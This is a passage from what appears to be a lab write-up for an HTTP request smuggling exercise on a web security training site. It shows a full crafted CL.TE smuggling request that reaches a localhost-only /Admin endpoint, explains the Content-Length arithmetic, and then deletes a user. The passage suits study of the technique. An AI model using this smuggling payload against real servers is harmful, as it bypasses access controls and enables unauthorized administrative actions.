 Now the reason is when we send

```
POST / HTTP/1.1
Host: 0a5f00c303eeb9ae81d19e8100390025.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
Transfer-Encoding: chunked

0

GET /Admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

appendhost=
```

The content length of second request is set to 13 at minimum it should be body +1 it means the request must be at least 12.
The idea is to make the next request look like
appendhost=Host: 0a5f00c303eeb9ae81d19e8100390025.web-security-academy.net so the duplicate header problem is remove


**Step5:**

Simply delete user carlos

<img src="images/image1.png" alt="third" width="500">

